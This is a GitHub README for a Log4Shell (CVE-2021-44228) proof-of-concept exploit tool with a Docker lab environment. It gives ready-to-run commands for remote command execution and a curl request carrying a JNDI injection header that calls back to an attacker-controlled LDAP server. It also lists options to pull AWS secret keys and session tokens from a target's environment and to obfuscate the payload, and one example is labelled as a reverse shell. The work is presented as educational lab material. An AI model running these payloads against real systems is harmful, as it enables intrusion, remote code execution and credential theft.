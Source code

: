 ## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```
git clone --recursive https://github.com/jsnv-dev/yet_another_log4j_POC_standalone
cd yet_another_log4j_POC_standalone
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:
![Full Exploitation](./attachments/full_rce.gif)

#### Serve the payload
Start the HTTP and LDAP Servers
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
Reverse shell
![Serve only](./attachments/serve.gif)

Getting information from callback(Note: `-c 'touch /dev/shm/vulnerable' is not needed`):
![Info](./attachments/info.gif)

### Options
```
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none. Possible inputs but not limited to below:
                                        hostName
                                        sys:user.name
                                        sys:user.home
                                        sys:user.dir
                                        sys:java.home
                                        sys:java.vendor
                                        sys:java.version
                                        sys:java.vendor.url
                                        sys:java.vm.version
                                        sys:java.vm.vendor
                                        sys:java.vm.name
                                        sys:os.name
                                        sys:os.arch
                                        sys:os.version
                                        env:JAVA_VERSION
                                        env:AWS_SECRET_ACCESS_KEY
                                        env:AWS_SESSION_TOKEN
                                        env:AWS_SHARED_CREDENTIALS_FILE
                                        env:AWS_WEB_IDENTITY_TOKEN_FILE
                                        env:AWS_PROFILE
                                        env:AWS_CONFIG_FILE
                                        env:AWS_ACCESS_KEY_ID
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Note
This is for educational purposes only. Please use responsibly if you want to test it.
